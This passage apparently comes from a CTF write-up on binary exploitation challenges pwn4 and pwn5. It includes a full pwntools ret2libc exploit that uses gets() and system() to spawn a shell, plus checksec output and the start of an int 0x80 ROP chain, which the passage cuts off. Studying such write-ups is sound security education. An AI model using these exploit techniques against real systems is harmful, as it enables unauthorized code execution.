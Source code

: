 ### EXPLOIT 
Before calling system we need to somehow get a pointer to "/bin/sh". We have a gets() function that can read to any memory location. So we overwrite the return address of the function with gets() and the argument as any address that has read-write permission like from the bss section or the data section. So we can now the write "/bin/sh" into that address. The return address of read() is right above return address of the function we overwrote. So we can write that stack location with the address of system() and the pointer to "/bin/sh" as argument. The return address of system() will now be a pointer to "/bin/sh".
```python
from pwn import *

junk="a"*32
system=p32(0x08048430)
gets=p32(0x08048410)
shelladdr1=p32(0x0804a030)
shelladdr2=p32(0x804a034)
shell1="/bin/sh" + "\x00"
shell2="/sh" + "\x00"

s=process('./pwn4')
s.recv(50)
gdb.attach(s,'b*0x08048782')
s.sendline(junk + gets + system + shelladdr1 + shelladdr1)
s.sendline(shell1)
s.send("ls" + "\n")

s.interactive()
```

<hr>
## pwn5

`32-bit executable, statically linked, not stripped`

pwn5 is also a menu driven program. The vulnerability is a gets() function, but the gets() is in a function 'change_major' which is called when the corresponding option is selected.

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
#### EXPLOIT 
This time there is no system(). The binary is statically linked so we can use the 'int 0x80' instruction to get the shell. to get the shell when executing 'int 0x80' instruction we have to have the reference no. of 'execve' in eax, pointer to '/bin/sh' in ebx and null pointers in ecx and edx. We have to prepare a rop chain to get everything ready before execution of 'int 0x80'.
```python
from pwn import *
junk="a"*32

int80=p32(0x08071005)
pop_eax=p32(0x080bc396)
pop_ebx=p32(0x080481d1)
pop_ecx=p32(0x080e4325)
pop_edx=p32(0x0807338a)
shelladdr1=p32(0x80f0060)
shelladdr2=p32(0x80f0064)
shell1="/bin"
shell2="/sh" + "\x00"
```